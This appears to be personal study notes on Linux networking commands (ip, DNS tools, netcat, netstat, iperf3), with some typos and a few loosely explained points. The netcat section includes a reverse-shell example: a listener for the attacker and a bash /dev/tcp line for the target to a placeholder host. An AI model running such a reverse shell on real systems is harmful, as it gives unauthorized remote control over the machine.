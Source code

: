 # ip command

`ip addr` shows addressed assigned to all network interfaces

`ip link` shows all accessible intefaces

`ip route` shows routing table

`ip route list table local` provides additional (internal e.g. loopback or broadcast) route addresses

`ip route add 192.168.12.0/24 via 172.16.0.2`

`ip route add default via 172.16.0.2`

> [!NOTE]
> default is an alias for 0.0.0.0/0

`ip link set enpxsy name enp-rem` changes name for an interface to enp-rem

> [!NOTE]
> interface has to be down during rename

`ip addr flush dev enp0s3` resets inteface setting

`ip link set down dev enp0s3` sets down intefcae

`ip link set up dev enp0s3` sets up interface

`ip addr add 1.0.1/24 dev enp0s3` assigns addres to interface by hand

> [!WARNING]
> `ip addr add` with mask -  puts default gatway ip to route table, but would't if mask wasn't provided\
> additionaly route table for specific interface will be accessible iff interface is set up

> [!NOTE]
> so why do we even have a possibility to assign adress to a specific interface without a mask.
> let's imagine, that we want to redirect some packages (to specific network **1.0.1.0/24**) to specific interface. This interface is not network **1.0.1.0** we can use:
> 1. `ip addr add 1.0.1.0 dev enp0s3`
> 2. `ip route add 192.1.0.1/30 via 1.0.1.0`
> without rerouting packets to **1.0.1.0/30** subnet
> for example

> [!NOTE]
> common name for ethernet interface is enp#s#f#, which stands for:
>```
>en = ethernet
>p# = PCI bus number
>s# = slot number
>f# = function index
>```

# dhclient - DHCP - Dynamic host conf protocol

`dhclient enp0s3 -v`

ISP - internet service provider

# host DNS 

`host -t a example.org` -DNS CLIENT with (t)ype of record

`traceroute -A example.org` - additional info about each consecutive AS number that can be used with whois

`traceroute -n 192.168.4.4` - turn off dns request when repling ipv4 -> host

### dns flow
![dns-flow](./imgs/basic/dns.png)


### dns query types
* recursive - dns resolvers sends a message if it can, by doing recursive calls

* iterative - dns resolver sends the best answer he can give and client has to make another call itself

* non-recursive - idk


### dns servers
* DNS resolver (recursive resolver)

* Root provider (there are 13) if dns resolver doesn't have some record it root provider for it
  
* Authoritative server (like google.com)
  
* Top level domains

### dns records

| type  | description                                                          |
| ----- | -------------------------------------------------------------------- |
| A     | resolves ipv4 addreses                                               |
| AAAA  | resolves ipv6 adresses                                               |
| CNAME | creates aliases to domain `ftp.example.com -> example.com`           |
| MX    | where to send email `MX example.com with prio -> mail1.example.com ` |
| SOA   | (start of authority)                                                 |

# nc  - netcat
### connect two computers

`-u` - `UDP` instead of `TCP` is used

server
```bash
nc -l 1337
```

client
```bash
nc ipaddr 1337
```

### reverse shell

attacker
```bash
nc -l -v -n -p 3000
```

target
```bash
/bin/bash - i >& /dev/tcp/ip/port 0>&1
```


# telnet host port
allows plain communication in tcp

# netstat
prints active network devices with lots of addition info about active ports, ethernet stats, ipv4 stats (ip, icmp, tcp , udp)

`netstat -l46n` - prints active listning services\
`netstat -l46` - prints active listning serices but with service using /etc/services

`sudo netstat -tulpn` l - listning, p- program, n -numeric


> [!NOTE]
> `/etc/services` is a mapping between protocols names and its TCP/UDP ports

> [!NOTE]
> `/etc/hosts` is a "local dns file" each records look like `127.0.1.1    virbian`


# ethtool
for managing network interfaces devices
obtaining properties :  `ethtool enp0s3`

# iperf3 - performance measurment application btw client and server

`iperf -s` listen
`iperf3 -c 192.168.0.2` sends

> [!NOTE]
> `iperf3` commonly works on port 5201
>
# ping
if intermediate router doesn't know where to send ping packet, it sends `Destination host unreachable` packet to sender
